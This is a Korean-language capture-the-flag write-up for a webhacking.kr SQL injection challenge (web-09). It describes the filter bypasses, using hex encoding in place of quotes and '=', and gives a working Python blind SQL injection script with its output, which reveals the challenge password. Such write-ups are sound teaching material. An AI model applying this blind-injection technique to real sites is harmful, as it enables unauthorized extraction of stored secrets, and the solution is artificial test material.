


# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**


# **Write-Up**

Password를 알아내야 하는 문제이다. 1, 2, 3이라 되어있는 링크를 클릭하면 Apple, Banana, Secret이라는 텍스트가 출력되고 GET method로 no라는 값이 넘어간다.


column은 id, no라는 것으로 보아 no=1인 id의 값은 Apple이고 no=2인 id의 값은 Banana이고 no=3인 id의 값은 "Secret"이 아니라 비밀인 것 같다.

또한 문제에서 요구하는 Password는 no=3인 id의 값이다.

먼저 다른 no를 알아보면 0일때는 인덱스가 나온다.



음수의 경우는 Access Denied가 나온다. ('-'을 필터링하는 것일 수 도)


4이상의 값은 비밀번호를 입력하라고만 나온다.


Password에 ' or 1=1 -- 과 같은 SQLi는 당연히 안되는 것 같고, no에서 SQLi가 된다.


다만, 필터링에 걸리는 문자가 꾀나 까다로운 듯 하다.



'=' 문자는 필터링이 된다.


" ' "와 "char"도 문자도 필터링이 된다.


 
16진수를 이용하여 문자를 우회하면 다행히 잘 된다. 그 와 동시에 true, false의 다른 반응 값도 알 수 있다.


no가 3인 id의 값을 알아내자.

```python
import urllib.request
import string

password    = ''

for i in range(1, 20):
    old_len = len(password)
    for c in string.printable.strip():
        query   = 'IF(substr(id,{0},1)like(0x{1}),3,0)'.format(i, (c.encode()).hex())
        url     = 'https://webhacking.kr/challenge/web-09/index.php?no='+query
        header  = {'Cookie': 'PHPSESSID=s5g2rgani18o2h3nbe34lln6bd'}
        request = urllib.request.Request(url, headers=header)
        response= urllib.request.urlopen(request)
        result  = response.read().decode()

        if 'Secret' in result:
            password += c
            break
    new_len = len(password)
    if old_len == new_len : break
print(password)

[Output]
alsrkswhaql%%%%%%%%
```

no가 3인 id의 값이 Password라고 하니 Password로 넣으면 점수를 획득할 수 있다.

